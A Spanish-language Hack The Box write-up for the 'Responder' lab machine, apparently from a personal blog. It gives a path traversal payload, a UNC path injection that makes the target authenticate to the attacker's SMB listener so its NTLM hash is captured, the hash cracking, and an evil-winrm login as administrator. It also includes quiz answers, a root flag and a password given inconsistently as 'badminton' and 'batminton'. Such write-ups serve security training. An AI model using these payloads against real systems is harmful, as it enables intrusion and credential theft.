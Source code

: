 ```yaml
---
layout: single
title: Responder - Hack The Box
excerpt: "asdasdad"
date: 2022-06-15
classes: wide
header:

categories:
  - hackthebox
  - infosec
tags:
  - responder
  - web
  - tools
---
```


# Responder - HackTheBox

![[Pasted image 20220427153530.png]]

Realizamos un escaneo de ==nmap== para identificar los puertos abiertos y servicios.

```nmap
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![[Pasted image 20220427161647.png]]
![[Pasted image 20220427161628.png]]

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![[Pasted image 20220427162215.png]]

Ahora ya podemos visualizarla.

![[Pasted image 20220427162345.png]]

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![[Pasted image 20220427162745.png]]

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![[Pasted image 20220427163537.png]]

![[Pasted image 20220427163432.png]]

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.

```
sudo responder -I tun0

(tun0 es la interfaz de red de nuestra máquina)
```

![[Pasted image 20220427170550.png]]

Verificamos que el servidor **SMB** este activado.

![[Pasted image 20220427170523.png]]

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```
//{our machine ip}/somefile
```

Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![[Pasted image 20220427171130.png]]

Vemos en la terminal que se ha capturado el **hash NTLM**.

![[Pasted image 20220427171250.png]]

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![[Pasted image 20220427171705.png]]

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20220427172056.png]]

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.

```
evil-winrm -i {target ip} -u administrator -p badminton
```

![[Pasted image 20220427172504.png]]

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta `C:\Users\mike\Desktop`.

![[Pasted image 20220427172844.png]]

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?
   **3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
   **unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
   **php**

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
   **page**

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
   **../../. ./../../../../../windows/system32/drivers/etc/hosts**

6. ¿Qué significa NTLM?
   **New Technology LAN Manager**

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
   **-I**

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
   **John The Ripper**

9. ¿Cuál es la contraseña para el usuario administrador?
   **batminton**

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
    **5985**

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![[Pasted image 20220427134218.png]]
